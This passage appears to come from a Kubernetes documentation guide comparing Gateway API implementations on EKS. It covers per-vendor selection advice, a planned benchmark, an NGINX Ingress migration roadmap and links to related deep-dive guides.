The implementation of the following 8 features as YAML examples per implementation is provided in a separate cookbook document. This guide focuses on comparison and selection; refer to the cookbook for actual manifests.

| # | Feature | Standard? |
|---|---------|-----------|
| 1 | Authentication (Basic Auth replacement) | Per-implementation |
| 2 | Rate Limiting | Per-implementation |
| 3 | IP Control (IP Allowlist) | Per-implementation |
| 4 | URL Rewrite | Gateway API v1 standard |
| 5 | Header Manipulation | Gateway API v1 standard |
| 6 | Session Affinity (cookie-based) | Per-implementation |
| 7 | Request Body Size Limit | Per-implementation |
| 8 | Custom Error Pages | Per-implementation |

:::tip View all implementation examples
The YAML manifests for each feature across AWS LBC, Cilium, NGINX GF, Envoy Gateway, and kGateway are available in the **[Feature Implementation Cookbook](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/feature-implementation-cookbook)**.
:::

### 4.8 Solution Selection Decision Tree

The following decision tree helps select the optimal solution for an organization.



### 4.9 Scenario-Based Recommendations

The following are recommended solutions for common organizational scenarios.

<ScenarioRecommendationTable locale="en" />

---

## 5. Benchmark Comparison Plan

A systematic benchmark for objective performance comparison of the 6 Gateway API implementations is planned. Eight scenarios — throughput, latency, TLS performance, L7 routing, scaling, resource efficiency, failure recovery, and gRPC — are measured in the same EKS environment.

:::info Benchmark Details
The test environment design, detailed scenarios, metrics, and execution plan are available at **[Gateway API Implementation Performance Benchmark Plan](/docs/benchmarks/gateway-api-benchmark)**.
:::

---

## 6. Conclusion and Roadmap

### 6.1 Conclusion

<RouteRecommendationTable locale="en" />

Select the solution that fits your organizational environment based on the table above.

<Tabs>
  <TabItem value="aws" label="AWS-only Environment" default>

**AWS Native (LBC v3)** — minimal operational burden, leverages the managed nature of ALB/NLB, SLA guarantee, AWS WAF/Shield/ACM integration. Optimal for environments where stability and automatic scaling matter more than raw performance.

  </TabItem>
  <TabItem value="cilium" label="High Performance + Observability">

**Cilium Gateway API** — ultra-low latency (P99 under 10ms), eBPF-based networking, Hubble L7 visibility, ENI mode VPC-native integration. Optimal for environments that need high performance and service mesh integration.

  </TabItem>
  <TabItem value="nginx" label="Leverage NGINX Experience">

**NGINX Gateway Fabric** — leverages existing NGINX knowledge, proven stability, F5 enterprise support, multi-cloud. Optimal for NGINX-experienced teams that need a fast transition.

  </TabItem>
  <TabItem value="envoy" label="CNCF Standard">

**Envoy Gateway** — CNCF standard, Istio compatible, rich L7 features (mTLS, ExtAuth, Rate Limiting, Circuit Breaking). Optimal for environments planning service mesh expansion.

  </TabItem>
  <TabItem value="kgateway" label="AI/ML Integration">

**kGateway** — unified gateway (API+mesh+AI+MCP), AI/ML workload routing, Solo.io enterprise support. Optimal for environments that need AI/ML-specialized routing.

  </TabItem>
  <TabItem value="kong" label="Enterprise API Management">

**Kong** — OpenResty (NGINX + Lua) based, 100+ KongPlugin ecosystem, enterprise 24x7 support (Enterprise/Konnect). Optimal for environments that leverage plugin-rich API management and existing Kong investments. Kong AI Gateway is an LLM API gateway that proxies external LLM providers, distinct in purpose from in-cluster inference pod routing (kgateway family). Consider that most L7 policies are configured via KongPlugin rather than native Gateway API resources.

  </TabItem>
  <TabItem value="hybrid" label="Hybrid Nodes">

**Cilium Gateway API + llm-d** — when operating cloud and on-premises GPU nodes together via EKS Hybrid Nodes, using Cilium as a single CNI provides the benefits of CNI unification + Hubble unified observability + built-in Gateway API. AI inference traffic is optimized by llm-d with KV-cache-aware routing. For details, see the [Cilium ENI + Gateway API Deep-Dive Guide — Section 9](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/cilium-eni-gateway-api#9-hybrid-nodes-architecture-and-aiml-workloads).

  </TabItem>
</Tabs>

### 6.2 Future Expansion Roadmap

<RoadmapTimeline locale="en" />

### 6.3 Key Message

:::info
**Complete migration before the March 2026 NGINX Ingress EOL to eliminate security threats at the source.**

The Gateway API is not just an Ingress replacement — it is the future of cloud-native traffic management.
- **Role separation**: clear separation of responsibility between platform and development teams
- **Standardization**: portable configuration without vendor lock-in
- **Extensibility**: scales to East-West, service mesh, and AI integration
:::

**Start now:**
1. Collect the current Ingress inventory — see [Migration Execution Strategy](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/migration-execution-strategy)
2. Select a solution that fits the workload (Section 4)
3. Build a PoC environment — see [Migration Execution Strategy](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/migration-execution-strategy)
4. Execute a gradual migration — see [Migration Execution Strategy](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/migration-execution-strategy)

**Additional resources:**
- [Gateway API official documentation](https://gateway-api.sigs.k8s.io/)
- [Cilium official documentation](https://docs.cilium.io/)
- [NGINX Gateway Fabric](https://docs.nginx.com/nginx-gateway-fabric/)
- [Envoy Gateway](https://gateway.envoyproxy.io/)
- [Kong Ingress Controller](https://developer.konghq.com/kubernetes-ingress-controller/)
- [AWS Load Balancer Controller](https://kubernetes-sigs.github.io/aws-load-balancer-controller/)

---

## Related Documents

### Sub-documents (Deep-dive Guides)

The topic-specific deep-dive content of this guide is provided in separate sub-documents.

- **[1. GAMMA Initiative — The Future of Service Mesh Integration](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/gamma-initiative)** — GAMMA overview, East-West traffic management, service mesh integration architecture, per-implementation support status
- **[2. Cilium ENI Mode + Gateway API Deep-Dive Configuration](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/cilium-eni-gateway-api)** — ENI mode architecture, installation/configuration, performance optimization (eBPF, XDP), Hubble observability, BGP Control Plane v2, hybrid node architecture
- **[3. Migration Execution Strategy](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/migration-execution-strategy)** — 5-phase migration process, CRD installation, verification scripts, troubleshooting guide
- **[4. Feature Implementation Cookbook](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/feature-implementation-cookbook)** — reference for implementing authentication, rate limiting, IP control, URL rewrite, headers, session affinity, body size, and error pages as YAML across the 6 implementations

### Related Documents (Agentic AI Platform)

- **[Tiered Gateway Architecture](/docs/agentic-ai-platform/model-serving/inference-routing/tiered-gateway-architecture)** — the full map and terminology of Tier 1 (this document), Tier 2 ① inference routing, ② LLM API gateway, and the Agent Data Plane (single source of definitions)
- **[Inference Gateway Reference](/docs/agentic-ai-platform/reference-architecture/inference-gateway)** — the Tier 2 inference gateway layer for agentic workloads (KV-cache-aware routing, model endpoint management). Configured as a 2-tier setup together with this document (Tier 1 general gateway)
- **[Inference Gateway Setup Guide](/docs/agentic-ai-platform/reference-architecture/inference-gateway/setup)** — inference gateway Helm deployment, HTTPRoute, and OTel configuration

### Related Categories

- [2. CoreDNS Monitoring & Optimization](/docs/eks-best-practices/networking-performance/coredns-monitoring-optimization)
- [3. East-West Traffic Optimization](/docs/eks-best-practices/networking-performance/east-west-traffic-best-practice)
- [4. Karpenter Ultra-fast Autoscaling](/docs/eks-best-practices/resource-cost/karpenter-autoscaling)

### External References

- [Kubernetes Gateway API official documentation](https://gateway-api.sigs.k8s.io/)
- [Gateway API Inference Extension](https://gateway-api-inference-extension.sigs.k8s.io/)
- [AWS Load Balancer Controller](https://kubernetes-sigs.github.io/aws-load-balancer-controller/)
- [Cilium Gateway API documentation](https://docs.cilium.io/en/stable/network/servicemesh/gateway-api/gateway-api/)
- [Kong Ingress Controller](https://developer.konghq.com/kubernetes-ingress-controller/)
